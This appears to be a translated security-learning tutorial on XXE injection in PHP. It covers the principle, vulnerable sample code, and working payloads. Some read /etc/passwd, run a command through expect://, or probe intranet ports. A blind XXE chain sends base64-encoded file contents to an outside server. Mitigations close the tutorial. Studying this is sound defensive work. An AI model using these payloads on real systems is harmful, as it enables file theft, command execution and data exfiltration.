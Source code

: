 # PHP Security Learning—XML External Entity Injection Vulnerability

Author: H3rmesk1t

Data: 2021.06.06

# environment
PHP 7.0.30, Libxml 2.8.0 (There is no external entity parsing after Libxml2.9.0, and the PHP version does not affect the utilization of XXE)


# Introduction to Principle

XML is designed to transmit and store data, with a focus on the content of the data, HTML is designed to display data, with a focus on the appearance of the data, HTML is designed to display information, while XML is designed to transmit information
XML features: XML is designed to structure, store and transmit information. It is only plain text. Software that can handle plain text can process XML. XML allows creators to define their own tags and their own document structure. XML is an information transmission tool independent of software and hardware. All modern browsers have built-in XML parser to read and operate XML, but different browsers have different parsing methods. For example, using the loadXML() method in IE and DOMParser in other browsers.
The loadXML() method is used to load string text, the load() method is used to load files, the parser loads XML into memory, and then converts it into an XML DOM object accessible through JavaScript.

# Vulnerability hazards
1. Read any file
file protocol: `file:///etc//passwd`
php protocol: `php://filter/read=convert.base64-encode/resource=index.php`
2. Execute system commands
Some situations will occur. In special configuration environments, if the PHP expect module is loaded into a vulnerable system or an application that can handle XML, you can execute commands. The simple payload is as follows

```php
<?xml version="1.0" encoding="utf-8"?
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://ifconfig" >]>
<root>
<name>&xxe;</name>
</root>
```
3. Detect the intranet port
With the help of vulnerabilities, the common payload is as follows

```php
<?xml version="1.0" encoding="utf-8"?
<!DOCTYPE xxe [
<!ELEMENT name ANY>
<!ENTITY xxe SYSTEM "http://192.168.199.100:80">]>
<root>
<name>&xxe;</name>
</root>
```
4. Attacking the intranet website (dos or directly eating server resources leads to inability to serve normally)

# example
## There is an echo
- Source code
```php
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);

echo $xml->name;
```
- Payload

```php
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210606143625390.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
## No retouch
> XXE without echo must use external server to bring out the echo content. This kind of XXE is also called blind XXE
- Source code

```php
<?php
$data = file_get_contents('php://input');

$dom = new DOMDocument();
$dom->loadXML($data);
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210606143812772.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

If it is executed directly, there is no echo. You can use the http protocol to send the request to the remote server to obtain the file contents
First write a dtd file on the remote server, such as test.dtd, and the file content is as follows

```php
Note: The % number requires the entity hexadecimal code to %
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY % send SYSTEM 'http://192.168.2.1/%file;'>">
```

Take data to the server with Payload

```php
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://192.168.2.1/test.dtd">
%remote;%int;%send;
]>
```
![Insert the picture description here](https://img-blog.csdnimg.cn/202106061440463.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

The execution logic is roughly as follows:
1. From the payload, you can see that three parameter entities %remote;%int;%send; are called in succession. This is our order of use. %remote is called first, and then requests test.dtd on the remote server after calling, which is a bit similar to including test.dtd.
2. %int calls %file in test.dtd, and %file will get the sensitive files on the server.
 3. Fill in the result of %file into %send (because there cannot be % in the value of the entity, convert it into html entity encoding \%).
 4. Call %send; send the data we read to our server in a GET request, which achieves the effect of taking out data and perfectly solves the problem of XXE no echo

# Solutions and suggestions
1. Use the method of disabling external entities provided by the development language

```
PHP:
libxml_disable_entity_loader(true);

JAVA:
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);

Python:
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

2. Filter the XML data submitted by the user

```
<!DOCTYPE and <!ENTITY, SYSTEM and PUBLIC
```
# Go further to learn XXE

To further learn the relevant knowledge and usage methods of XXE, please refer to the content in this article: [Link address] (https://xz.aliyun.com/t/3357)